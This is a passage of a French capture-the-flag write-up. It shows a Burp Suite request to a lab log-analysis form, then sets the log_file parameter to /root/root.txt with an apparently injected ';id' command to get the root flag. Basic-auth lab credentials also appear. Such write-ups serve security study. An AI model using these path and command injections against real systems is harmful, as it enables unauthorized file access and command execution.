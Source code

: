 Le fichier **acces.log** et le fichier **auth.log**, mais je ne trouve rien d'interessant dedans.

Quand on regarde via BurpSuite la requête :
```
POST / HTTP/1.1
Host: localhost:5555
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 57
Origin: http://localhost:5555
Authorization: Basic YW1heTpteWNoZW1pY2Fscm9tYW5jZQ==
Connection: keep-alive
Referer: http://localhost:5555/
Cookie: JSESSIONID.978d603c=node0tygn38nbaji4vppfog6jecnp2.node0; JSESSIONID.1782143f=node01jht6buz0mpq31vy3xeih5tq7m1.node0; screenResolution=1920x969
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

log_file=%2Fvar%2Flog%2Fapache2%2Faccess.log&analyze_log=
```

On vois ici que **log_file** a un path complet, on va test de mettre **/root/root.txt**
```
</form>
            144c1a2XXXf
<p class='error'>Suspicious traffic patterns detected in /root/root.txt;id:</p><pre>144cXXXXXbf</pre>
```
et nous voici avec le flag root !
